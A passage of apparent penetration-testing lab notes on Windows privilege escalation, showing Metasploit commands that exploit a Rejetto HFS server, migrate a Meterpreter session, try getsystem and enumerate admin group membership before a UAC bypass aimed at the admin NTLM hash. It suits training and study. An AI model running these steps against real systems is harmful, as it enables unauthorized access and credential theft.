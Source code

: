 ```shell
dir
type flag.txt
```

<br>

## 2. Privilege Escalation

### 2.1. UAC Bypass: UACME

We will look at bypassing User Account Control (UAC) [link](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) using the UACME [link](https://github.com/hfiref0x/UACME) tool.

**Objective**: Gain the highest privilege on the compromised machine and get admin user **NTLM hash**.

**Note**: The UACMe tool is located in "/root/Desktop/tools/UACME/" directory.

**Gain access to the system**

```shell
# Scan the target usging nmap. We notice that it's running a HTTP file server developed by Rejetto.
service postgresql start && msfconsole
searchsploit hfs # Check the version, in this case 2.3.x
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <target_IP>
exploit

# Migrate the Meterpreter session into a more stable process
pgrep explorer # ps -S explorer.exe
migrate <process_ID>
# This command moves the Meterpreter session from its current process into explorer.exe

getsystem
# In this case we can observe that we do not have permission to elevate privileges
```

Perform some **basic local enumeration** to identify the Windows version, the current user's access permissions, their privileges, and other relevant details.

```shell
sysinfo 
getuid
# I'm logged in as the user 'admin,' not 'Administrator.' This is a different user called 'admin,' but it should be part of the local Administrators group. We can check the privileges for this 'admin' user.
getprivs
shell
# To verify that this user is a part of the local administrators group.
net user
net localgroup administrators
# We can see that this user is part of the administrators group, which means that this user can essencially execute programs with elevated privileges but in order to do that we need to bypass UAC. 
```
